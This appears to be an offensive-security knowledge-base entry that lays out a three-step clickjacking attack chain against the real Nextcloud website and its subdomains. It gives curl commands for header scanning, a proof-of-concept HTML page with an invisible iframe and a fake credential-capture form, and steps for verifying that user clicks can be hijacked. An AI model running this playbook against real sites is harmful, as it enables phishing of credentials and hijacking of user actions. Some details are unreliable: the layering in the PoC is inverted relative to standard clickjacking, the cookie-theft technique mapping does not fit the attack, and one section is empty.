

---
tags:
  - clickjacking
  - ui-redressing
  - x-frame-options
  - nextcloud
type: attack_chain
tools: []
tactics:
  - '[[Initial Access]]'
verified: false
platforms:
  - Web
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Identify-Vulnerable-Nextcloud-Subdomains]]'
  - '[[procedures/Create-Clickjacking-Proof-of-Concept-HTML]]'
  - '[[procedures/Verify-Clickjacking-Embedding]]'
step_count: 3
techniques:
  - '[[Drive-by Compromise]]'
  - '[[Steal Web Session Cookie]]'
updated_at: '2025-12-14T17:28:12.423Z'
description: >-
  A multi-stage attack exploiting the absence of X-Frame-Options headers on
  Nextcloud subdomains to enable clickjacking, allowing attackers to embed and
  manipulate user interactions on malicious sites.
skill_level: intermediate
impact_level: high
id: 953516b5-2a51-4070-aab0-6e40fde1ed98
validated: true
mitre_tactics:
  - '[[Initial Access]]'
mitre_techniques:
  - '[[Drive-by Compromise]]'
  - '[[Steal Web Session Cookie]]'
---
# Clickjacking Attack on Nextcloud Subdomains via Missing X-Frame-Options

Multi-stage attack chain demonstrating a complete workflow to identify, exploit, and verify clickjacking vulnerabilities on Nextcloud subdomains due to missing X-Frame-Options HTTP response headers.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Web browser (e.g., Chrome, Firefox)
- Text editor for HTML (e.g., VS Code)
- Command-line tool like curl for header inspection

### Target Environment

- Web platform
- Publicly accessible Nextcloud subdomains (e.g., nextcloud.com and derivatives)
- No authentication required for initial header checks

### Initial Access Requirements

- Internet access to query subdomains
- No prior credentials needed; targets are public-facing

## Detailed Attack Procedures

### Step 1: Identify Vulnerable Subdomains
procedure: [[procedures/Identify-Vulnerable-Nextcloud-Subdomains]]

**Objective**: Scan Nextcloud subdomains to confirm absence of X-Frame-Options header, identifying sites susceptible to iframe embedding.

**Instructions**: List known Nextcloud subdomains and use [[commands/curl-check-headers]] to inspect response headers for each:

```bash
curl -I https://nextcloud.com | grep -i x-frame-options
curl -I https://download.nextcloud.com | grep -i x-frame-options
curl -I https://docs.nextcloud.com | grep -i x-frame-options
# Repeat for other subdomains: help.nextcloud.com, apps.nextcloud.com, etc.
```

If no output or empty result, the header is missing.

**Expected Output**: No matching lines for X-Frame-Options, indicating vulnerability.

**Success Indicators**:
- Headers confirm absence of X-Frame-Options on multiple subdomains (e.g., 13 listed targets)
- All tested URLs load without frame restrictions

### Step 2: Create Clickjacking Proof-of-Concept HTML
procedure: [[procedures/Create-Clickjacking-Proof-of-Concept-HTML]]

**Objective**: Build an HTML page that embeds a vulnerable Nextcloud page in a nearly invisible iframe, overlaying it for potential user interaction hijacking.

**Instructions**: Create an HTML file with an iframe targeting a vulnerable URL, styled to be transparent and positioned for overlay. Use a text editor to write:

```html
<!DOCTYPE html>
<html>
<head><title>Clickjacking PoC</title></head>
<body>
  <div style="position: absolute; top: 0; left: 0; width: 500px; height: 700px; opacity: 0.0001; z-index: 1;">
    <iframe src="https://nextcloud.com" width="500" height="700" style="position: relative;"></iframe>
  </div>
  <div style="position: absolute; top: 0; left: 0; width: 500px; height: 700px; z-index: 2;">
    <!-- Overlay form for attacker-controlled actions, e.g., fake login -->
    <form>Enter credentials: <input type="text" name="user"><input type="password" name="pass"><button>Submit</button></form>
  </div>
</body>
</html>
```

Save as poc.html.

**Expected Output**: A local HTML file ready for loading in a browser.

**Success Indicators**:
- HTML file created with iframe and overlay elements
- Styles ensure iframe is nearly invisible

### Step 3: Verify Clickjacking Embedding
procedure: [[procedures/Verify-Clickjacking-Embedding]]

**Objective**: Load the PoC to confirm the Nextcloud page embeds fully in the iframe without restrictions, enabling potential clickjacking.

**Instructions**: Open the HTML file in a web browser and inspect the iframe content. Use browser developer tools to verify loading:

- Right-click and select "Inspect Element"
- Check the iframe src loads the full Nextcloud page
- Test interactions: clicks and keystrokes should pass through to the embedded content if opacity is adjusted.

**Expected Output**: Nextcloud subdomain loads completely within the iframe on the attacker's page.

**Success Indicators**:
- Iframe renders the target site without browser blocking
- User actions (e.g., clicks) can be hijacked to attacker-controlled elements
- No console errors related to frame policies

## Attack Chain Summary

### Key Achievements

1. Identified 13 vulnerable Nextcloud subdomains lacking X-Frame-Options
2. Constructed a functional PoC for invisible iframe embedding
3. Demonstrated full site loading, enabling credential theft or action hijacking

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Drive-by Compromise]] Drive-by Compromise
- [[Steal Web Session Cookie]] Steal Web Session Cookie

### MITRE ATT&CK Tactics

- [[Initial Access]] Initial Access

---

*Last updated: 2023-10-01T00:00:00Z*
